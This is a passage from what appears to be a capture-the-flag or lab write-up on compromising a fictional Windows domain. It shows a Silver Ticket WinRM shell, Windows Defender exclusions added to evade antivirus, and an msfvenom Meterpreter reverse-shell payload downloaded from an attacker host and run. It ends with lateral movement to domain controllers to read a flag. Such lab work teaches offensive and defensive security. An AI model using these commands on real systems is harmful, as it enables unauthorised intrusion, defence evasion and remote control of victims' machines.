 ```python
    std_out, std_err, status_code = session.get_command_output(shell_id, command_id)
    sys.stdout.buffer.write(std_out)
    sys.stderr.buffer.write(std_err)

session.cleanup_command(shell_id, command_id)
```

> Note that `pywinrm` attempts to find an SPN named `HTTP/factws` rather than `HTTP/factws.factories.mammamia.local`

### Post-exploitation

We should now have a shell on the factory PC using Kerberos authentication. When we crafted the Silver Ticket, both `Rubeus` and `ticketer.py` will by default include the local administrator's SID in the ticket. This means that we have administrative access to the factory PC.

When we first land on the target machine, we should do some initial enumeration to understand the environment. There are many different tools and scripts that can be used for this purpose. But first, it is important to know that our current logon session is a single Silver Ticket for the HTTP/WinRM service. This means that we cannot use this ticket to authenticate to other services or machines within the domain. We should therefore try to upgrade to a full domain context.

But first, we should establish some better command and control (C2). I will be using Metasploit's Meterpreter for this purpose. You can use any other C2 framework or tool you prefer.

Windows Defender is enabled on the machine, so we should use an AMSI bypass or add an exclusion for a specific script/path. I will be adding an exclusion for the `C:\Windows\Temp\attacker` directory.

```powershell
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
```

We can then generate a simple Meterpreter payload using `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=13.37.13.37 LPORT=4444 > msf.exe
```

We then spawn the listener in Metasploit:

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost lab
lhost => lab
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 13.37.13.37:4444
```


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      